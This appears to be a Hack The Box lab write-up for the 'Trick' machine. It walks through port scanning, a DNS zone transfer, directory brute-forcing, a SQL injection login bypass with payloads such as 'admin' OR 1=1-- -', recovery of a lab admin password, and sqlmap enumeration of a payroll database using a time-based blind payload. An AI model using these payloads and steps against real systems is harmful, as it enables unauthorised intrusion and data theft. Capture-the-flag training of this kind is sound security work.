

- Machine : https://app.hackthebox.com/machines/Trick
- Reference : https://youtu.be/H9FcE_FMZio?si=7dOih6GEVsMYjLO3
- Solved : 2024.11.25. (Mon) (Takes 1day)
 
### Summary
---


# External Penetration Testing
---
## External Information Gathering
### Port Scanning
```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.11.166
Performing quick port scan on 10.10.11.166...
Found open ports: 22,25,53,80,8973
Performing detailed scan on 10.10.11.166...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 05:24 EST
Nmap scan report for 10.10.11.166
Host is up (0.13s latency).

PORT     STATE  SERVICE VERSION
22/tcp   open   ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp   open   smtp    Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp   open   domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp   open   http    nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-server-header: nginx/1.14.2
8973/tcp closed unknown
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.23 seconds
```

The port scanning found 4 open ports : 22,25,53,80.
While it contains DNS(53) port, but it doesn't reveal domain name.
Maybe reverse DNS lookup might be helpful to find domain name.
Also, http(80) is supposed to be visited ahead of other services.


### dns(53)
First, we can perform reverse DNS lookup.

```bash
┌──(kali㉿kali)-[~/htb/CVE-2024-34833-payroll-management-system-rce]
└─$ dig @10.10.11.166 -x 10.10.11.166

; <<>> DiG 9.20.0-Debian <<>> @10.10.11.166 -x 10.10.11.166
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 30793
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 3
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: aacdc5b983e9b55e8be1e0b76744ae8c0ca16e5b4494e00e (good)
;; QUESTION SECTION:
;166.11.10.10.in-addr.arpa.     IN      PTR

;; ANSWER SECTION:
166.11.10.10.in-addr.arpa. 604800 IN    PTR     trick.htb.

;; AUTHORITY SECTION:
11.10.10.in-addr.arpa.  604800  IN      NS      trick.htb.

;; ADDITIONAL SECTION:
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1

;; Query time: 139 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (UDP)
;; WHEN: Mon Nov 25 12:06:17 EST 2024
;; MSG SIZE  rcvd: 163
```

`trick.htb` found. Let's list it to `/etc/hosts`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat /etc/hosts                              
10.10.11.166    trick.htb preprod-payroll.trick.htb root.trick.htb
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Plus, let's try Zone Transfer to the DNS server.

```bash
┌──(kali㉿kali)-[~/htb/CVE-2024-34833-payroll-management-system-rce]
└─$ dig axfr @10.10.11.166 trick.htb

; <<>> DiG 9.20.0-Debian <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 131 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
;; WHEN: Mon Nov 25 12:08:21 EST 2024
;; XFR size: 6 records (messages 1, bytes 231)
```

`preprod-payroll.trick.htb` and `root.trick.htb` are additionally found.

### http(80)
Index Page shows that the website is under construction. There's an input for email, but it's not working. Its source code contains has some codes regarding bootstrap only.


Let's run `gobuster` to find if there is any sub pages.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://trick.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://trick.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 185] [--> http://trick.htb/assets/]                                                                        
/css                  (Status: 301) [Size: 185] [--> http://trick.htb/css/]
/js                   (Status: 301) [Size: 185] [--> http://trick.htb/js/]
Progress: 13906 / 220561 (6.30%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 13939 / 220561 (6.32%)
===============================================================
Finished
===============================================================
```

Only generic pages (such as `/assets`, `css`, `/js`) are found.
Let's try to visit another domain : `preprod-payroll.trick.htb`.


Also, let's run `gobuster` again to find sub pages.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://preprod-payroll.trick.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://preprod-payroll.trick.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 185] [--> http://preprod-payroll.trick.htb/assets/]                                                        
/database             (Status: 301) [Size: 185] [--> http://preprod-payroll.trick.htb/database/]     
```

The name of the software running is `Payroll Management System`

## Exploitation
### SQL Injection
Let's try a simple SQL Injection on Login Input. I'll feed a default SQLi input `admin' OR 1=1-- -` on username, and put whatever string on password.


After trying the standard basic SQL injections, we find that using `admin' or 1=1 --`  as the username and anything as the password works!




"Users" tab on the admin panel provides a function to edit user's properties including password.

```html
<input type="password" name="password" id="password" class="form-control" value="SuperGucciRainbowCake" required="">
```
With developer tool, I could read the plain text of the admin user `Enemigosss` password : `SuperGucciRainbowCake`

To enumerate its database, let's try using `sqlmap`.
First, using `Burpsuite` I captured and saved the login request.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat req.txt   
POST /ajax.php?action=login HTTP/1.1
Host: preprod-payroll.trick.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://preprod-payroll.trick.htb
Connection: keep-alive
Referer: http://preprod-payroll.trick.htb/login.php
Cookie: PHPSESSID=pl6dk0mbm0ksc1bl3l8atu2m62

username=*&password=test
```

Using the request file, I tried naive `sqlmap` command.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -r req.txt --batch --dbs
       __H__                                
 ___ ___[(]_____ ___ ___  {1.8.7#stable}
|_ -| . [)]     | .'| . |       
|___|_  [)]_|_|_|__,|  _|    
      |_|V...       |_|   https://sqlmap.org   

<SNIP>

sqlmap identified the following injection point(s) with a total of 212 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=' AND (SELECT 8151 FROM (SELECT(SLEEP(5)))WJeT) AND 'UVZo'='UVZo&password=test
---
[13:50:08] [INFO] the back-end DBMS is MySQL

<SNIP>
```

This scan is using "Time-based SQL Injection" which takes too long.
Let's specify the increase thread.

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -r req.txt --batch --threads 10 --dbs 

<SNIP>

[14:04:38] [INFO] resumed: 2
[14:04:38] [INFO] resumed: information_schema
[14:04:38] [INFO] resumed: payroll_db
available databases [2]:
[*] information_schema
[*] payroll_db
```

There are two DBs including default(information_schema). We need to investigate on `payroll_db`.
Let's try to fetch tables this time.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -r req.txt --batch --threads 10 -D payroll_db --tables

<SNIP>

[14:07:30] [INFO] adjusting time delay to 2 seconds due to good response times
position
[14:08:36] [INFO] retrieved: employee
[14:09:39] [INFO] retrieved: depart
[14:10:33] [ERROR] invalid character detected. retrying..
[14:10:33] [WARNING] increasing time delay to 3 seconds
ment
[14:11:17] [INFO] retrieved: payroll_items
[14:13:52] [INFO] retrieved: attendance
[14:15:29] [INFO] retrieved: employee_deductions
[14:19:02] [INFO] retrieved: employee_allowances
[14:21:14] [INFO] retrieved: users
[14:22:06] [INFO] retrieved: deductions
[14:23:51] [INFO] retrieved: 
[14:24:02] [ERROR] invalid character detected. retrying..
[14:24:02] [WARNING] increasing time delay to 4 seconds
payroll
[14:25:51] [INFO] retrieved: allowances
Database: payroll_db
[11 tables]
+---------------------+
| position            |
| allowances          |
| attendance          |
| deductions          |
| department          |
| employee            |
| employee_allowances |
| employee_deductions |
| payroll             |
| payroll_items       |
| users               |
+---------------------+
```


